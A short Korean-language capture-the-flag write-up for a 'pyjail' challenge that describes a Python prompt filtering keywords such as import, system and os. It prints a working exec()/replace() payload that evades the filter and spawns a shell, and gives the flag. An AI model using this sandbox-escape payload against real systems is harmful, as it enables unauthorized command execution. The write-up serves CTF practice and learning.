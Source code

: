 # pyjail
- - - -
host와 포트번호를 주고 접속을 해보라고 한다.

* prob
![](pyjail/%E1%84%8F%E1%85%A2%E1%86%B8%E1%84%8E%E1%85%A5.PNG)
접속을 해보니 python prompt같이 동작하고 있다. 아무래도 시스템함수를 통해 flag를 읽으면 되는 문제로 보인다.
그래서 import os를 해보았는데 필터링을 하고 있었다. 
필터링 규칙은 `import, __, flag, system, os` 등이 있었다.
improt가 필터링 당해서 다른 방법으로 모듈을 넣을 방법을 찾아 보았는데 exec()함수를 사용해서 가능하다고 한다. 인자로는 스트링형식으로 들어가기에 필터링되는 것들은 replace를 사용해서 우회했다.


## payload
- - - -
```
exec('_1_im1port_1_("o1s")\x2esy1stem("sh")'.replace("1",""))
```


## flag
- - - -
flag{verry_ez_python_jail_chall}


#CTF/IGRUS/misc